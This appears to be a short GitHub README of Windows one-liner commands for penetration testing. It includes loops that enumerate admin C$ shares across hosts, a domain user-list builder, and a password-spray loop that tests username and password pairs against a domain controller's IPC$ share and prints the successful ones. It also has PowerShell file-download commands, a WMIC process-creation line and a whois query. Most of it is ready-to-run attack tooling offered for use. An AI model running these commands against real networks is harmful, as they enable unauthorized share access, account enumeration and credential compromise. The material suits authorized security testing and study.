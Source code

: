 # oneliners
One line DOS commands useful during pentests

for /f %a in (hosts.txt) do dir /b /s \\\\%a\\C$\\Users\\file*

for /f %a in (hosts.txt) do @if exist \\\\%a\\C$\\Users\\ echo users found on %a

Build a user list, but will need to edit the output before using
for /f "skip=2 tokens=1,2,3" %i in ('net user /domain') do @echo %i >>testuser.txt & @echo %j >>testuser.txt & @echo %k >>testuser.txt

password spray
@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\DOMAINCONTROLLER\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\DOMAINCONTROLLER\IPC$ > NUL 

invoke-webrequest -uri url -outfile filename
(New-Object System.Net.WebClient).DownloadFile("url","output")

wmic process call create "cmd.exe /c calc.exe"

(Bash) for i in (cat filename); do echo $i; done

With GDPR there is different information available between variosu registrars.  This whois query will query the specific registrar and return results direct from the registrar:
whois -h $(whois apple.com | grep WHOIS | cut -d: -f 2) apple.com









